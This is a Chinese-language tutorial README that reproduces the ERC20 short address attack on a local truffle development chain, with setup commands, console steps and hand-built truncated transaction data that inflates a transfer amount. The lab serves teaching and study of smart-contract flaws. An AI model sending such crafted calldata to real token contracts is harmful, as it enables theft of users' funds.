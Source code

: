 # Short Address Attack
## 短地址攻击

### 环境依赖
```
cat /etc/issue
#Ubuntu 16.04.3 LTS

node --version
#v10.2.1

truffle version
#Truffle v4.1.11 (core: 4.1.11)
#Solidity v0.4.24 (solc-js)
```
### 环境安装
```
sudo apt-get install nodejs
sudo apt install nodejs-legacy
sudo apt install npm
sudo npm install n -g
sudo n stable

npm install -g truffle
```

### 使用 
```
git clone https://github.com/UUUUnotfound/DASP_TOP_10_Tutorial.git

cd DASP_TOP_10_Tutorial/09.Short_Address_Attack/Short_Address_Attack

truffle develop
# truffle(develop)> 
```



### 以下是truffle console 中代码
```
//编译合约

truffle(develop)> compile

//部署合约

truffle(develop)> migrate 

#Using network 'develop'.
#...
#Running migration: 2_deploy_Attack.js
#  Deploying Attack...
#  ... 0x93a10b43442a4593fa155ff2a3fe20a43958ca48cd927d96d9f42b54e66c5c7e
#  Attack: 0xa4392264a2d8c998901d10c154c91725b1bf0158
#Saving successful migration to network...
#  ... 0x7c0d61edffa833de74bd08925ac45ba7fe5a5831c2b2b9bfc759dc336646886d
#Saving artifacts... 

//初始化默认账户

web3.eth.defaultAccount = web3.eth.accounts[2]

// 短地址

wallet_short_address = "0x14723a09acff6d2a60dcdf7aa4aff308fddc1600"

//编译生成的 Attack合约地址 填到下面 比如 "0xa4392264a2d8c998901d10c154c91725b1bf0158"
//最新版的web3js不支持编译solidity,需要用remix-ide或者solc编译,暂时不写了

contract_short_address_attack = "0xa4392264a2d8c998901d10c154c91725b1bf0158"

// 查看短地址余额

web3.eth.getBalance(wallet_short_address).toString()
//output:'0'

// 原始数据 从remix-ide获取的msg.data
// 也可以自己构造 至于直接使用 remix-ide 里面复现不成功有几点原因
// 直接在代码合约里使用  address("0x14723a09acff6d2a60dcdf7aa4aff308fddc16").send(1),会变成 address("0x0014723a09acff6d2a60dcdf7aa4aff308fddc16").send(1)
// 前台通过参数输入 0x14723a09acff6d2a60dcdf7aa4aff308fddc16,1 的形式会被识别成string类型而不通过检查,引发报错
// raw data: byte4(keccak("transfer(address,uint)")+"0x14723a09acff6d2a60dcdf7aa4aff308fddc1600"+1

raw = "a9059cbb00000000000000000000000014723a09acff6d2a60dcdf7aa4aff308fddc160000000000000000000000000000000000000000000000000000000000000001"

// POC msg.data是将raw中的地址部分后两字节'00'(共16bits)删除,这里evm虚拟机会从右补全,也就是说 value << 16
//  00000000000000000000000000000000000000000000000000000000000001
//0000000000000000000000000000000000000000000000000000000000000100
// poc_data byte4(keccak("transfer(address,uint)")+"0x14723a09acff6d2a60dcdf7aa4aff308fddc16"+1

poc_data = "a9059cbb00000000000000000000000014723a09acff6d2a60dcdf7aa4aff308fddc160000000000000000000000000000000000000000000000000000000000000001";

//先给contract_short_address_attack合约充值10000000 wei 防止ether不够

web3.eth.sendTransaction({to:contract_short_address_attack,value: 10000000})

//这里发送 2<<16 = 65536 wei

web3.eth.sendTransaction({to:contract_short_address_attack,data: poc_data})

//这里发送 1 wei
//web3.eth.sendTransaction({to:contract_short_address_attack,data: raw})

//再查看 wallet_short_address 的余额已经增加了 65536 wei
web3.eth.getBalance(wallet_short_address).toString()
//output:'65536'

```

























> Tips:
> 如果报错
>#SyntaxError: Unexpected end of JSON input while parsing near
>
>可能是因为使用了淘宝nodejs源(https://registry.npm.taobao.org)
>可以尝试以下命令切换
>
>`npm config set registry http://registry.cnpmjs.org`

> 参考
> 
> 1.[Analyzing the ERC20 Short Address Attack – Eric Rafaloff](https://ericrafaloff.com/analyzing-the-erc20-short-address-attack/)
>
> 2.[以太坊智能合约安全入门了解一下（下）](http://rickgray.me/2018/05/26/ethereum-smart-contracts-vulnerabilities-review-part2/#3-Arithmetic-Issues)

